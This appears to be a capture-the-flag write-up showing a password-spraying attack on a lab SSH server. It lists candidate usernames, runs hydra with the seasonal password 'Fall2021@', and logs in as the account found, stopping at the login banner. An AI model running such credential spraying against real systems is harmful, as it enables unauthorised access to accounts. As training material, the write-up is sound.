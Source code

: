 Perform a password spraying attack to get access to the SSH://10.10.163.182 server to read /etc/flag. What is the flag? (season+ year + special character)

```
┌──(kali㉿kali)-[~]
└─$ cat usernames-list.txt 
admin
phillips
burgess
pittman
guess

┌──(kali㉿kali)-[~] (lots of attempts like Autumn2021@, Fall2021! and so on)
└─$ hydra -L usernames-list.txt -p Fall2021@ ssh://10.10.163.182
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-10 16:28:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:5/p:1), ~1 try per task
[DATA] attacking ssh://10.10.163.182:22/
[22][ssh] host: 10.10.163.182   login: burgess   password: Fall2021@
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-10 16:28:07

┌──(kali㉿kali)-[~]
└─$ ssh burgess@10.10.163.182      
The authenticity of host '10.10.163.182 (10.10.163.182)' can't be established.
ED25519 key fingerprint is SHA256:VFZHL9xKFvSA3f7JHFbVnOTfVWHDDfOyYBhO7WxW8/I.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.163.182' (ED25519) to the list of known hosts.
burgess@10.10.163.182's password: Fall2021@
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 5.4.0-1058-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Sep 10 20:29:14 UTC 2022

  System load:                    0.08
  Usage of /:                     21.1% of 19.32GB
  Memory usage:                   39%
  Swap usage:                     0%
  Processes:                      146
  Users logged in:                0
  IP address for eth0:            10.10.163.182
  IP address for br-c0dd1805e8c7: 172.18.0.1
  IP address for br-mailcow:      172.22.1.1
  IP address for docker0:         172.17.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

61 packages can be updated.
8 updates are security updates.


Last login: Tue Nov 16 09:49:44 2021 from 10.8.232.37
```